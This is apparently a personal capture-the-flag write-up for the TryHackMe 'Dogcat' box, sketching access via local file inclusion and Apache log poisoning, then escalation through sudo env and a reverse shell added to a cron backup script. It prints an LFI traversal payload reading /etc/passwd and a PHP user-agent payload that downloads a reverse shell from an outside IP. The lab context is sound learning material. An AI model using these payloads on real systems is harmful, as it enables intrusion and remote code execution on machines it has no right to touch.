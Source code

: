# 34. Dogcat 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**

#other/flagDir 
#other/richInfo 
#other/GAtactics 
maintain privileged shell
container inside box


## Gaining Access 😉
- LFI found, [[#Important commands 🔥]] 1
- apache log poisoning, uploaded php revshell [[#Important commands 🔥]] 2



## Maintaining Access 🥷
- env binary found as sudo, exploited
- we have a backup.sh that runs every minute, taking the backup.tar to **/root/container** adding a reverse shell to the backup script may give us access to the host root. Since it interacts with the host root folders, the backup.sh is probably created by the host and ran by the host
- added bash revshell on it. to get privileged shell


## Important commands 🔥
1. lfi filterbypass
	```
	?view=dog(../../../../../etc/passwd&ext
	```
2. php shell upload user agent
	```
	<?php file_put_contents('shell.php', file_get_contents('http://10.9.229.254/rev.php'))?>
	GET /?view=dog(../../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
	```
3. find flag
	```
	find / -type f -name flag1* 2>/dev/null
	```
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- container inside box
- lfi to rce


--------------------------------
**By Nibras Muhammed** 🤓🖥️






